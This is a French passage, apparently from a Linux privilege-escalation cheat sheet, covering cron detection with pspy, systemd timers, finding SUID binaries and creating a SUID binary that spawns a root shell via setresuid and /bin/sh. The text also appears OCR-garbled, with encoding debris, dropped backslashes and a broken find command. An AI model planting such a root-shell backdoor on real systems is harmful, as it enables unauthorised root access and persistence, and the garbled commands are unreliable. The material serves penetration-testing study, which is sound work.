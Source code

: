 Vous pouvez utiliser [pspy](https://github.com/DominicBreuker/pspy) pour détecter un CRON job.

```powershell
# Montre les commandes et les évènements file system puis scan profs toutes les 1000 ms (=1 sec)
./pspy64 -pf -i 1000 
```


## Systemd timers

```powershell
systemctl list-timers --all
NEXT                          LEFT     LAST                          PASSED             UNIT                         ACTIVATES
Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily.timer              apt-daily.service
Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily-upgrade.timer      apt-daily-upgrade.service
Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service

3 timers listed.
```

## SUID

SUID/Setuid veut dire "set user ID upon execution" (en fran'e7ais définir l'ID utilisateur lors de l'exécution), c'est activé par défaut dans toutes les distribs Linux. Si un fichier avec ce bit est lancé, l'uid sera changé par celui de son possesseur. Si son possesseur est `root`, l'uid sera changé en `root` même s'il a été exécuté depuis l'utilisateur `bob`. Le bit SUID est représenté avec un `s`.

```powershell

f1 'a8'71'a9'a4
f0 swissky@lab ~  

f1 'a8'74'a9'a4
f0 $ ls /usr/bin/sudo -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/sudo
```

### Trouver les binaires SUID

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null ;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

### Créer un binaire SUID

```bash
print 'int main(void){nsetresuid(0, 0, 0);nsystem("/bin/sh");n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```
